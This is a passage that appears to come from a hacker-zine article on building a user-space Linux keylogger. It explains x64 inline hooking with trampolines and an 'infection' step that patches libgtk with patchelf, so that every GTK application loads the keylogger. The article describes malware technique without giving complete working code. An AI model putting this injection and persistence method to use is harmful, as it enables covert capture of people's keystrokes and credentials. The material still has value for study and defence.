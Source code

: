 ```

printf("%s\n", asm_code);

asm_opcodes = Assemble(asm_code, &opcodes_sz);
```

--[ 3.3.2 The hook in x64

Patch of the routine to hook:

```
push rax
mov rax, ADDR_hook_entry
jmp rax
pop rax <-- ADDR return from
trampoline
```

The push rax it's used to keep the value of the rax, after the use of this
in the jmp to the hook entry.  The pop rax it's executed after the jmp from
the trampoline, because then we recover the value we had before.

The hook entry:

When we do pop rax and after a push of all the registers, we keep the rax.
And all the registers.

```
pop rax
pushfq
push REGISTERS
call handler_in_C
pop REGISTERS
popfq
jmpq TRAMPOLINE_ADDRESS
```

The trampoline in x64 rebuilds the lea, mov and push rip-relative.  And
has the following structure:

```
repaired_opcodes
push rax
mov rax, ADDR_return_from_trampoline
jmp rax
```

--[ 3.4 Infection

The idea is to load our shared-object on each GTK app, so the best idea for
keeping it user-space we found, is to patch the libgtk shared-object,
making it to load us on every load, because every GTK GUI loads this shared
object.

We found the tool patchelf in CPP which is on references, and we solved
this issue easily.

This tools what it does is to add a new NEEDED entry on the table in the
libgtk that the loader recognizes as a depdendency.  So as we did a
keylogger inside a shared-object, it adds our keylogger as a dependency of
gtk.
